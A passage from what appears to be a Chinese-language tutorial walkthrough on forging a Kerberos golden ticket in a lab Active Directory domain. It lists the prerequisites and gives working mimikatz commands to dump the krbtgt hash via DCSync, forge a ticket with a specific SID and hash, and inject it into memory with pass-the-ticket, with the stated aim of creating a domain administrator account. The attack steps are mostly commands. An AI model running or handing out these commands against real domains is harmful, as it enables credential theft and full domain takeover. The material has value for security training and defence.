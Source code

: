 **伪造金票的所需条件**  
1、域名称  
2、域的 SID 值  
3、域的 KRBTGT 账号的 HASH  
4、伪造任意用户名

登录 aaa 域管用户，执行`whoami`可以看到是 aaa 用户：

![](http://upload-images.jianshu.io/upload_images/18786052-99c6b3145464768f.png)

使用一下命令导出用户 krbtgt 的 hash：

```
mimikatz(commandline) # privilege::debug
mimikatz(commandline) # lsadump::dcsync /domain:cyberpeace.com /all /csv
mimikatz(commandline) # lsadump::dcsync /domain:cyberpeace.com /user:krbtgt


```

![](http://upload-images.jianshu.io/upload_images/18786052-3ae9653e1f493f83.png)

再执行以下命令可以看到 krbtgt 用户的 SID：

![](http://upload-images.jianshu.io/upload_images/18786052-d054228266ca807f.png)

利用 mimikatz 生成金票生成. kirbi 文件并保存：

```
mimikatz.exe "kerberos::golden /admin:system /domain:cyberpeace.com /sid:S-1-5-21-97341123-1865264218-933115267 /krbtgt:95972cdf7b8dde854e74c1871f6d80a0 /ticket:ticket.kirbi" exit

/admin：伪造的用户名
/domain：域名称
/sid：SID值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt的HASH值
/ticket：生成的票据名称    //不是写入内存中的命令！


```

![](http://upload-images.jianshu.io/upload_images/18786052-6b78eaa2729222bb.png)

#### 三，金票的使用 (普通域账户，利用黄金票据，创建域管账户)

登录域内普通用户，通过 mimikatz 中的 kerberos::ptt 功能将 ticket.kirbi 导入内存中。

```
mimikatz # kerberos::purge         
mimikatz # kerberos::ptt ticket.kirbi


```

![](http://upload-images.jianshu.io/upload_images/18786052-c9f9bb7ae1d2e40c.png)
